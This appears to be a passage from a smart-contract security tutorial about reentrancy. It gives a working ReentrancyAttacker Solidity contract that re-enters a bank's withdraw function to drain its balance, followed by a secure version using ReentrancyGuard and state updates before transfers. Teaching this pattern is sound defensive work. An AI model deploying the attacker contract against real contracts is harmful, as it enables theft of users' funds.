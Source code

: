 ```solidity
contract ReentrancyAttacker {
    VulnerableBank public bank;
    uint256 public constant ATTACK_AMOUNT = 1 ether;
    
    constructor(address _bankAddress) {
        bank = VulnerableBank(_bankAddress);
    }
    
    function attack() external payable {
        require(msg.value >= ATTACK_AMOUNT, "Need at least 1 ETH");
        bank.deposit{value: ATTACK_AMOUNT}();
        bank.withdraw(ATTACK_AMOUNT);
    }
    
    // This function will be called during the bank's withdraw
    receive() external payable {
        if (address(bank).balance >= ATTACK_AMOUNT) {
            bank.withdraw(ATTACK_AMOUNT); // Re-enter!
        }
    }
}
```

### Secure Implementation

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBank is ReentrancyGuard {
    mapping(address => uint256) public balances;
    
    function withdraw(uint256 amount) public nonReentrant {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        
        // ✅ SECURE: State update BEFORE external call
        balances[msg.sender] -= amount;
        
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}
```

## Integer Overflow/Underflow

Before Solidity 0.8.0, arithmetic operations could overflow or underflow without reverting, leading to unexpected behavior.
